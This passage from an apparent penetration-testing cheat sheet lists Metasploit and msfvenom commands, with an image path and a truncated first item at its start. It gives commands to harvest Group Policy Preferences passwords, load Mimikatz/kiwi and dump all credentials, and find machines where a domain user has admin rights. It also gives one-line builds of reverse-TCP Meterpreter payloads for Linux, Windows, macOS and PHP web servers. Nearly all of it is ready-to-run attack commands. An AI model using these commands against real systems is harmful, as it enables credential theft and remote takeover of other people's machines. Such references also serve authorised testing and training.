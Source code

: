 - Metasploit show privileges of current user

```bash
use post/windows/gather/credentials/gpp
```

- Metasploit grab GPP saved passwords

```bash
load kiwi
```

```bash
creds_all
```

- Metasploit load Mimikatz/kiwi and get creds

```bash
run post/windows/gather/local_admin_search_enum
```

- Idenitfy other machines that the supplied domain user has administrative access to

```bash
set AUTORUNSCRIPT post/windows/manage/migrate
```

### **Meterpreter Payloads**

```bash
msfvenom –l
```

- List options

### **Binaries**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
```

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
```

### **Web Payloads**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php
```

- PHP

```bash
set payload php/meterpreter/reverse_tcp
```
